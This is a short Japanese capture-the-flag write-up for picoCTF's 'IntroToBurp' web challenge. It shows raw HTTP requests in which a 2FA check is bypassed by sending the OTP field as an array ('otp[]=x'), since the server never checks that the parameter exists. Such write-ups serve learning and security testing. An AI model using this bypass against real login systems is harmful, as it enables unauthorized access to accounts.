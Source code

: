 ```yaml
---
title: "IntroToBurp"
points: 100
tags: ["web"]
---
```


Registration -> 2FA -> DashboardとWebページが遷移していく。

もちろんCTFなので電話番号に対して2FAが飛んでくることはなく、メインは2FAのバイパス。

対象となるのは以下のようなリクエスト。

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:51904
Origin: http://titan.picoctf.net:51904
Content-Type: application/x-www-form-urlencoded
Cookie: session=.eJw9jEkKAyEURO_iOouo6NdcRhy-dEi3igOdEHL3diHZVb3i1Zf4Z_-QB3mTG_GtRtPzC9METMngAwUrvKaMMw6WCs-dlgruWoDlNCrgbnpx7LtJ9sD1k3uZSSoBoGYttrUz17DWsuWEJo3DYV1oNKx__3cBimIr6g.ZgW_LQ.singJ3PgnJ_PyvibdXcnVesc8Ig
Content-Length: 5

otp=x
```

OTPパラメータの存在確認をしておらず、[]を付与したらバイパスが可能だった。

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:51904
Origin: http://titan.picoctf.net:51904
Content-Type: application/x-www-form-urlencoded
Cookie: session=.eJw9jEkKAyEURO_iOouo6NdcRhy-dEi3igOdEHL3diHZVb3i1Zf4Z_-QB3mTG_GtRtPzC9METMngAwUrvKaMMw6WCs-dlgruWoDlNCrgbnpx7LtJ9sD1k3uZSSoBoGYttrUz17DWsuWEJo3DYV1oNKx__3cBimIr6g.ZgW_LQ.singJ3PgnJ_PyvibdXcnVesc8Ig
Content-Length: 5

otp[]=x
```